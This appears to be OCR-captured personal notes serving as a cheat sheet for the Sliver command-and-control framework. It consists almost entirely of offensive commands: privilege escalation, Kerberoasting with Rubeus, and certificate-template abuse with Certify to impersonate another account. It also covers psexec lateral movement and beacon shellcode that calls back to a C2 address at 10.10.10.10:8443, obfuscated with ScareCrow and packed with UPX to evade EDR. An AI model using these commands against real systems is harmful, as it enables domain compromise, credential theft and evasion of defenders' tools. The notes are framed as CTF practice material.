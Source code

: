 ```go
getsystem
// Shell
Shell // Comes with an OPSec warning by default for good reason
// Exit shell, be patient wait 30 seconds
exit

```

 Armory
```go
// Within a sessions run a armory package eg:
// Enumeration
seatbelt -h
// -- to segment flags and arguments
seatbelt -- -group=all full
sharpup audit
// Kerberoasting
rubeus kerberoast
// Certificate Abuse
certify find /vulnerable
// From seamlsess intigence part 2, because this syntax makes it easy to understand than $variableNames
certify request /ca:sv001-dc.corp1.local\\corp1-SV001-DC-CA /template:WebServerVuln /altname:jboss
// openssl pkcs12 -in cert.cer -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
// rubeus to get tgt
rubeus asktgt /user:jboss /certificate:C:\\Windows\\system32\\cert.pfx

// psexec is embedded into sliver good for lateral movement
// Profile creation to use the same configuration
psexec -p <profile> <hostname>
```

Armory
```go
// Because why not
armory install all 
```

Shellcode generation
```go
// Disable shikata ga nai
-f shellcode -G
```

[[ScareCrow]] and `upx` for the CTF-level bypass of EDR - [Alh4zr3d](https://www.youtube.com/@alh4zr3d3)
```bash
# Generate sliver beacon shellcode disabling shikata ga nai
generate beacon --mtls  10.10.10.10:8443 --arch amd64 --os windows --save /tmp/8443-sliver.bin -f shellcode -G
# use 
/opt/ScareCrow/ScareCrow -I /tmp/8443-sliver.bin -Loader binary -domain microsoft.com -obfu -Evasion KnownDLL 
# Add For static without c runtime libraries
CGO_ENABLED=0 go build

# Build with golang
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w"
# Pack with upx
upx $file.exe
```
